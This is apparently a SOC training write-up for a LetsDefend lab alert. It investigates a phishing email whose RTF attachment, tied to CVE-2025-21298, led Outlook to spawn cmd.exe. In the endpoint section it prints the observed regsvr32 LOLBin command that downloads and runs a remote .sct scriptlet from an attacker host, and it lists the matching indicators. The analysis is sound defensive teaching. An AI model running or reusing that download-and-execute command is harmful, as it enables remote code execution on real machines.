



# SOC336 – Windows OLE Zero-Click RCE Exploitation Detected (CVE-2025-21298)

## Executive Summary

This investigation analyzed a **critical email-based attack** involving a malicious RTF attachment associated with **CVE-2025-21298 (Windows OLE Zero-Click Remote Code Execution)**.

The investigation began after a suspicious email containing an RTF attachment triggered a high-confidence security alert. By correlating **email telemetry**, **threat intelligence**, **endpoint activity**, and **proxy logs**, I confirmed that the attachment was malicious and led to post-delivery execution on the target endpoint.

The compromised workstation executed **`cmd.exe`** from **`OUTLOOK.EXE`**, abused the Windows LOLBin **`regsvr32.exe`** to retrieve a remote **`.sct`** payload, and successfully connected to attacker-controlled infrastructure.

Based on the available evidence, the incident was classified as a **True Positive** and escalated for Incident Response.


# Alert Overview



| Field | Value |
|---------|--------|
| Severity | Critical |
| Category | Malware |
| Rule | SOC336 – Windows OLE Zero-Click RCE Exploitation Detected |
| CVE | CVE-2025-21298 |
| Source Email | projectmanagement@pm.me |
| Recipient | Austin@letsdefend.io |
| Subject | Important: Action Required for Upcoming Project Deadline |
| Attachment | mail.rtf |
| SHA256 | df993d037cdb77a435d6993a37e7750dbbb16b2df64916499845b56aa9194184 |
| Detection Source | Email Security |
| Device Action | Allowed |

# Investigation Timeline

| Time | Activity |
|------|----------|
| 05:12 | Suspicious email delivered to the victim |
| 05:13 | Email security alert generated |
| 05:15 | Attachment reputation validated using VirusTotal |
| 08:06 | Endpoint investigation revealed suspicious command execution |
| 08:06 | Proxy logs confirmed outbound connection to attacker infrastructure |
| 08:08 | Evidence correlated across all telemetry sources |


# Technical Investigation

## Step 1 – Email Analysis

The investigation began by reviewing the email responsible for triggering the alert.

The message originated from an external sender:

- **projectmanagement@pm.me**

with the subject:

- **"Important: Action Required for Upcoming Project Deadline"**

The email attempted to convince the recipient to review an attached project document, creating a sense of urgency commonly observed in phishing campaigns.

Several characteristics immediately increased the confidence level of the alert:

- External and untrusted sender.
- Business-themed social engineering lure.
- Suspicious RTF attachment.
- Detection associated with CVE-2025-21298.

### Email Evidence



### Analyst Assessment

Although the email alone was highly suspicious, additional evidence was required to determine whether the attachment actually resulted in endpoint compromise.


## Step 2 – Threat Intelligence Validation

The next phase focused on validating the attachment using external threat intelligence.

The SHA256 hash of the attached RTF document was analyzed in **VirusTotal**, where the sample was detected by **27 out of 61 security vendors**.

Several detections explicitly referenced:

- CVE-2025-21298
- Malicious RTF exploitation
- Trojan behavior
- Microsoft Office exploit activity



### Attachment Reputation

| Field | Value |
|------|------|
| File Name | mail.rtf |
| SHA256 | df993d037cdb77a435d6993a37e7750dbbb16b2df64916499845b56aa9194184 |
| VirusTotal Detection | 27 / 61 |
| Detection Themes | Exploit, Trojan, Malicious RTF, CVE-2025-21298 |

### Notable Detection Examples

- Exploit.CVE-2025-21298
- RTF:CVE-2025-21298
- Trojan.MSOffice.CVE-2025-21298

### Analyst Assessment

The threat intelligence strongly supported the legitimacy of the alert and significantly increased confidence that the attachment was intentionally crafted to exploit Windows OLE vulnerabilities.

However, reputation alone cannot confirm successful compromise. Endpoint telemetry was required to determine whether the malicious document had actually executed code on the victim's workstation.


## Step 3 – Endpoint Investigation

After validating the malicious attachment, the investigation moved to **LetsDefend Endpoint Security** to determine whether the email resulted in code execution.

A review of the endpoint process history revealed a suspicious execution chain involving **Microsoft Outlook**, **cmd.exe**, and **regsvr32.exe**.


### Finding 1 – Outlook Spawned cmd.exe

**Observed Process Chain**

```text
OUTLOOK.EXE
        │
        └── cmd.exe
```

### Why this is Suspicious

Microsoft Outlook normally launches applications used to open documents, hyperlinks, or email attachments.

Spawning **cmd.exe** directly is highly unusual and frequently associated with exploitation of malicious Office or RTF documents.

This finding suggested that the email attachment likely triggered command execution immediately after being opened.

### Analyst Assessment

This was the first endpoint artifact indicating that the malicious email progressed beyond delivery and achieved code execution on the victim's workstation.

### Finding 2 – LOLBin Abuse using regsvr32.exe

**Observed Command**

```cmd
C:\Windows\System32\cmd.exe /c regsvr32.exe /s /u /i:http://84.38.130.118.com/shell.sct scrobj.dll
```

### Why this is Suspicious

`regsvr32.exe` is a legitimate Microsoft binary frequently abused as a **Living-off-the-Land Binary (LOLBin)**.

Instead of registering a local DLL, the command instructed **regsvr32.exe** to retrieve and execute a remote **`.sct` scriptlet** hosted on attacker-controlled infrastructure.

Several indicators immediately stood out:

- Execution initiated through `cmd.exe`.
- Remote URL supplied using the `/i:` parameter.
- Usage of `scrobj.dll` to process the downloaded scriptlet.
- Direct relationship with the suspicious Outlook process chain.

### Analyst Assessment

This represented strong evidence of post-delivery malicious execution.

Rather than simply opening the attachment, the endpoint attempted to retrieve and execute additional attacker-controlled content using a legitimate Windows binary, a common technique used to evade traditional security controls.

---

## Step 4 – Network / Proxy Correlation

The final validation step focused on determining whether the suspicious endpoint activity generated outbound network communication.

Using **LetsDefend Log Management**, I searched for connections associated with the infrastructure referenced in the `regsvr32.exe` command.

A matching proxy log confirmed that the compromised endpoint successfully contacted the remote server.

### Proxy Evidence

| Field | Value |
|------|------|
| Log Type | Proxy |
| Source Address | 172.16.17.137 |
| Source Port | 35424 |
| Destination Address | 84.38.130.118 |
| Destination Port | 80 |
| Request Method | GET |
| Request URL | `http://84.38.130.118.com/shell.sct` |
| Device Action | Permitted |
| Process | cmd.exe |
| Process ID | 6784 |
| Time | Feb 04, 2025 – 08:06 AM |

### Analyst Assessment

This was the final piece of evidence required to confirm the attack.

The endpoint not only executed a suspicious LOLBin command but also successfully reached attacker-controlled infrastructure and requested the remote scriptlet referenced by `regsvr32.exe`.

This behavior confirmed that the malicious execution chain extended beyond local process execution and established outbound communication with external infrastructure.


# Evidence Correlation

No single indicator was used to classify this incident.

Instead, multiple independent sources of telemetry were correlated throughout the investigation.

## Email Evidence

✅ External sender using a business-themed phishing lure.

✅ Suspicious RTF attachment.

✅ Attachment associated with CVE-2025-21298.


## Threat Intelligence Evidence

✅ SHA256 hash detected by **27/61** VirusTotal vendors.

✅ Multiple detections classified the sample as:

- Malicious RTF
- Microsoft Office Exploit
- Trojan
- CVE-2025-21298 Exploit


## Endpoint Evidence

✅ `OUTLOOK.EXE` spawned `cmd.exe`.

✅ `cmd.exe` executed `regsvr32.exe`.

✅ LOLBin abuse identified.

✅ Remote `.sct` payload referenced through `scrobj.dll`.


## Network Evidence

✅ Proxy logs confirmed an outbound HTTP request to attacker-controlled infrastructure.

✅ Requested resource matched the URL observed in endpoint telemetry.


## Analyst Conclusion

The investigation combined:

- Email Security
- Threat Intelligence
- Endpoint Telemetry
- Proxy Logs

The combined evidence demonstrated a complete malicious execution chain, beginning with phishing delivery and ending with successful retrieval of attacker-hosted content.

The alert was therefore classified as a **True Positive** requiring immediate Incident Response.


# MITRE ATT&CK Techniques Identified

| Tactic | Technique | ID | Evidence from Investigation |
|---------|-----------|------|----------------------------|
| Initial Access | Spearphishing Attachment | **T1566.001** | The attack originated from a phishing email containing a malicious RTF attachment delivered to the victim. |
| Execution | Command and Scripting Interpreter: Windows Command Shell | **T1059.003** | Endpoint telemetry showed `cmd.exe` executing a suspicious command initiated by `OUTLOOK.EXE`. |
| Defense Evasion | Signed Binary Proxy Execution: Regsvr32 | **T1218.010** | `regsvr32.exe` was abused as a LOLBin to retrieve and execute a remote `.sct` scriptlet through `scrobj.dll`. |
| Command and Control | Ingress Tool Transfer | **T1105** | Proxy logs confirmed a successful HTTP GET request to `http://84.38.130.118.com/shell.sct`, indicating retrieval of attacker-hosted content. |


# Indicators of Compromise (IoCs)

## Email Indicators

| Type | Indicator |
|------|-----------|
| Sender | `projectmanagement@pm.me` |
| Recipient | `Austin@letsdefend.io` |
| Subject | `Important: Action Required for Upcoming Project Deadline` |
| Attachment | `mail.rtf` |


## File Indicators

| Type | Indicator |
|------|-----------|
| SHA256 | `df993d037cdb77a435d6993a37e7750dbbb16b2df64916499845b56aa9194184` |


## Network Indicators

| Type | Indicator |
|------|-----------|
| Source Infrastructure | `84.38.130.118` |
| Remote Resource | `http://84.38.130.118.com/shell.sct` |


## Process Indicators

| Type | Indicator |
|------|-----------|
| Parent Process | `OUTLOOK.EXE` |
| Child Process | `cmd.exe` |
| LOLBin | `regsvr32.exe` |
| Script Engine | `scrobj.dll` |


# Incident Classification

| Field | Value |
|------|------|
| Classification | **True Positive** |
| Severity | Critical |
| Attack Type | Malicious Email / Exploit Attachment / LOLBin Execution |
| Escalated to IR | Yes |


# Escalation Note

**True Positive.**

The investigation confirmed that a phishing email containing a malicious RTF attachment associated with **CVE-2025-21298** was successfully delivered to the victim.

Threat intelligence validated the attachment as malicious, with **27/61 VirusTotal detections** referencing exploit activity.

Endpoint telemetry showed **`OUTLOOK.EXE` spawning `cmd.exe`**, which executed **`regsvr32.exe`** to retrieve a remote **`.sct`** payload from attacker-controlled infrastructure.

Proxy logs confirmed a successful outbound HTTP request to the same infrastructure, validating the malicious execution chain.

Based on the correlation between **email telemetry**, **endpoint activity**, **threat intelligence**, and **network evidence**, the incident was classified as a **confirmed malicious compromise** requiring immediate Incident Response.


# Lessons Learned

- Correlating **multiple telemetry sources** provides significantly higher confidence than relying on a single indicator.
- Email reputation alone cannot confirm compromise; endpoint validation is essential.
- Legitimate Windows binaries such as **`regsvr32.exe`** should always be evaluated within their execution context, as they are frequently abused as LOLBins.
- Process lineage is a valuable indicator during malware investigations. The relationship between **OUTLOOK.EXE → cmd.exe → regsvr32.exe** clearly demonstrated post-delivery code execution.
- Network telemetry plays a critical role in validating whether suspicious commands successfully communicated with attacker-controlled infrastructure.

# Key Takeaways

This investigation demonstrates the importance of combining **email analysis**, **threat intelligence**, **endpoint telemetry**, and **network log correlation** to accurately validate security incidents.

Rather than relying on a single detection, the investigation followed a structured methodology to reconstruct the complete attack chain, resulting in a high-confidence **True Positive** classification and a well-supported escalation to Incident Response.
